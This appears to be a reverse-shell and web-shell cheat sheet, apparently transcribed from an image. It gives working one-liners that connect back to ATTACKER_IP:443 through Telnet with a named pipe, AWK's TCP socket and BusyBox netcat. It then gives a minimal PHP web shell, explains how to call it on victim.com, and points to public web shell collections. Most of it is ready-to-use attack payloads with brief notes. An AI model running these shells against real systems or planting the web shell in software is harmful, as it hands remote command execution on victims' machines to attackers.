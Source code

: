 ### Telnet

- This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 

```
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

### AWK

- This reverse shell uses AWK’s built-in TCP capabilities to connect to ATTACKER_IP:443. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

```
 awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### BusyBox

- This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.

```
busybox nc ATTACKER_IP 443 -e sh
```

## Webshell
- A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. 
- A web shell is usually a file containing the code that executes commands and handles files. 
- It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.
- An example PHP webshell would look like
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
- The above shell can be saved into a file with the PHP extension, like `shell.php`.
- The shell can be used for vulnerabilities such as Unrestricted File Upload, File Inclusion, Command Injection, etc.
- The shell can be accessed from the location where it is uploaded to such as `http://victim.com/uploads/shell.php`.
- To execute a command such as `whoami` the attacker sends request to `http://victim.com/uploads/shell.php?cmd=whoami`.
- Webshells available online can be viewed here https://www.r57shell.net/index.php. 
- Some of the popular ones are p0wny-shell, b374k shell and c99 shell.
